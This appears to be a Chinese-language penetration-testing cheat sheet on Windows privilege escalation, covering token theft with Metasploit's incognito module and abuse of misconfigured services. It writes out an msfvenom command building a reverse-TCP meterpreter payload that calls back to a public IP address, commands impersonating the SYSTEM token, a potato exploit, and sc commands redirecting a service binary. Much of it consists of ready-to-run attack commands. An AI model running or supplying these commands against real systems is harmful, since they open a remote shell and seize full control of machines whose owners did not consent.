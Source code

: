 ### 令牌窃取

令牌窃取 Win2008 Win2012 阿里云服务器

假冒令牌可以假冒一个网络中的另一个用户进行各类操作。

所以当一个攻击者需要域管理员的操作权限时候，需通过假冒域管理员的令牌进行攻击。

1、本地权限 - Test in Win2008 阿里云服务器 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=47.94.236.117 LPORT=3333 -f exe -o msf.exe
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

2、Web权限 - Test in Win2008 12 16 阿里云服务器 

```
execute -cH -f ./potato.exe //配合烂土豆
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

## 系统权限配置错误

### 服务配置不当

1.描述 

Windows在系统启动时，会伴随着一些高权服务启动(windows服务是以system权限运行的)倘若某些服 务存在一些漏洞，那么就能够借此服务进行权限劫持，例如DLL劫持

**原理：即使正确引用了服务路径，也可能存在其他漏洞。由于管理配置错误，用户可能对服务拥有过多的权限，例如，可以直接修改它导致重定向执行文件**

过程：检测服务权限配置-制作文件并上传-更改服务路径指向-调用后成功

2.漏洞介绍 

windows系统服务文件在操作系统启动时加载执行，并在后台调用可执行文件。如果一个低权限的用户 对此类系统服务调用的可执行文件拥有写权限，那么就可以替换该文件，并随着系统启动获得控制权 限

windows服务是以system权限运行的，其文件夹、文件和注册表key-value都是受强制访问控制保护 的。但是在某些情况下，操作系统中依然存在一些没有得到有效保护的服务

**检测脚本**：

```
1、accesschk.exe -uwcqv "administrators" *
2、Import-Module .\PowerUp.ps1
Invoke-All Checks
```

https://github.com/411Hall/JAWS
https://github.com/PowerShellMafia/PowerSploit

```
sc config "test" binpath="C:\Program.exe"
sc start test
```

